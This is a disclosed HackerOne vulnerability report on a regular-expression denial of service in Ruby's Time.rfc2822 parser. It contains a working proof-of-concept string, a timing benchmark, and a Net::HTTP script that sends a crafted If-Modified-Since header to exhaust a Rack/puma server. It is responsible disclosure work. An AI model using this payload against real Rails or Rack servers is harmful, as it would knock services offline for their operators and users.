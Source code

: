 # ReDoS in Time.rfc2822

## Report Details
- **Report ID**: 1485501
- **URL**: https://hackerone.com/reports/1485501
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2022-02-18T22:22:29.876Z
- **Disclosed**: 2023-05-16T03:07:30.089Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
Hello, I found a pattern that occur ReDoS in `Time.rfc2822` (and `Time.rfc822`).

https://github.com/ruby/time/blob/v0.2.0/lib/time.rb#L505

```ruby
    def rfc2822(date)
      if /\A\s*
          (?:(?:Mon|Tue|Wed|Thu|Fri|Sat|Sun)\s*,\s*)?
          (\d{1,2})\s+
          (Jan|Feb|Mar|Apr|May|Jun|Jul|Aug|Sep|Oct|Nov|Dec)\s+
          (\d{2,})\s+
          (\d{2})\s*
          :\s*(\d{2})\s*
          (?::\s*(\d{2}))?\s+
          ([+-]\d{4}|
           UT|GMT|EST|EDT|CST|CDT|MST|MDT|PST|PDT|[A-IK-Z])/ix =~ date
```           

It is a detect result by `recheck` ( https://makenowjust-labs.github.io/recheck/ ).

{F1624605}

## PoC

```
❯ ruby -v
ruby 3.1.1p18 (2022-02-18 revision 53f5fc4236) [arm64-darwin20]

❯ irb
irb(main):001:0> require 'time'
=> true
irb(main):002:0>  Time.rfc2822 "0 Feb 00 00 :00" + " " * 20000
# => ReDoS (and raise ArgumentError)
```

## benchmark

rfc2822_benchmark.rb

```ruby
require 'benchmark'
require 'time'
  
def rfc2822_parse(length)
  text = "0 Feb 00 00 :00" + " " * length
  Time.rfc2822(text)
rescue ArgumentError
  nil
end

Benchmark.bm do |x|
  x.report { rfc2822_parse(100) }
  x.report { rfc2822_parse(1000) }
  x.report { rfc2822_parse(10000) }
  x.report { rfc2822_parse(100000) }
end
```

```
❯ bundle exec ruby rfc2822_benchmark.rb
       user     system      total        real
   0.000326   0.000009   0.000335 (  0.000344)
   0.029284   0.000054   0.029338 (  0.029469)
   2.860528   0.007354   2.867882 (  2.875771)
 290.843621   0.889107 291.732728 (292.665729)
```

---


## Rack

In `Rack::ConditionalGet`, the header value is parsed by `Time.rfc2822`, so it is possible to attack from the request.

https://github.com/rack/rack/blob/2.2.3/lib/rack/conditional_get.rb#L52

### PoC

Gemfile

```
# frozen_string_literal: true

source "https://rubygems.org"

gem 'rack', '~> 2.2', '>= 2.2.3'
gem 'puma', '~> 5.6', '>= 5.6.2'
```

config.ru

```ruby
class Server
  def call(env)
    # puts env
    [ 200, {}, ["..."]]
  end
end

use ::Rack::ConditionalGet
run Server.new
```

```ruby
require 'net/http'

url = URI.parse('http://127.0.0.1:9292/')

req = Net::HTTP::Get.new(url.path)

req['IF_MODIFIED_SINCE'] =  "0 Feb 00 00 :00" + " " * 20000 + "+0"

res = Net::HTTP.start(url.host, url.port) {|http|
  http.request(req)
}
puts res.body
```

```
❯ time bundle exec ruby rfc2822_request.rb
...
bundle exec ruby rfc2822_request.rb  0.18s user 0.07s system 2% cpu 11.516 total
```

## Impact

ReDoS occurs when `Time.rfc2822` accepts user input.

Rails uses `::Rack::ConditionalGet` by default, so it can be attacked by a request from the client.

If using nginx etc., the header length is limited to about 8k bytes, so it seems to be less affected. ( https://stackoverflow.com/questions/686217/maximum-on-http-header-values )

On the other hand, puma is susceptible because it can be used up to 80 * 1024.

## Attachments
- recheck_1.png
